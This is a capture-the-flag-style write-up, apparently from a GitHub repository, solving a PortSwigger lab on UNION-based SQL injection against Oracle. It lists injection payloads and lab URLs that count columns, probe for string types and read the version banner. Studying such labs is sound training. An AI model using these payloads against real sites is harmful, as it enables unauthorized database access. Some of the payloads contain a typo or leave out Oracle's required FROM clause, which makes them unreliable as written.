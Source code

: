 ## LAB 5: SQL injection attack, querying the database type and version on Oracle
[SQL injection attack, querying the database type and version on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)  
**LEVEL**: PRACTITIONER  
**Description**: This lab contains an SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

## Solution
![LAB SCREENSHOT](./assets/lab5.1.PNG)

1. We need to determine the number of columns in the table
2. Determine which column is of type string/varchar
3. Display the Oracle database type and version

### 1. Determine the number of columns in the table
Using `ORDER BY` we can determine the number of columns in the table. `ORDER BY` sorts a table by a given column index. We can increment the column number by one until we get an error which will tell us that the previous number is the number of columns in the table. 

Trying the following parameters
`' ORDER BY 1--`
`' ORDER BY 2--`
`' ORDER BY 3--` 

On the last paramter where we order by 3 we get the following error `Internal Server Error` which is a 500 internal error. This means the number of columns in the table is 2.

FULL URL: `https://ac941fe51fb731d1c018f07200010045.web-security-academy.net/filter?category=Gifts' ORDER BY 3--`


### 2. Searching for string/varchar column
We need to determine if a column is of type string/varchar this is because we want to be able to return the random string value provided to us by the site as one of the fields. We need to check each column for string/varchar compatibility by return the any string value for the column.

Trying the following parameters
`' UNION SELECT 'abc',NULL--`
`' UNION SELECT NULL'abc'--` 
`' UNION SELECT 'abc','def'--` - Both Columns are of type string/varchar


FULL URL: `https://ac941fe51fb731d1c018f07200010045.web-security-academy.net/filter?category=Gifts' UNION SELECT NULL,'abc'--`

### 3.  Display the Oracle database type and version
We can now use `UNION` attack to banner values.

`' UNION SELECT 'BANNER',banner FROM v$version--`

FULL URL: `https://ac941fe51fb731d1c018f07200010045.web-security-academy.net/filter?category=Gifts' UNION SELECT 'BANNER',banner FROM v$version--`


![SOLVED LAB SCREENSHOT](./assets/lab5.2.PNG)


<!-- EOF -->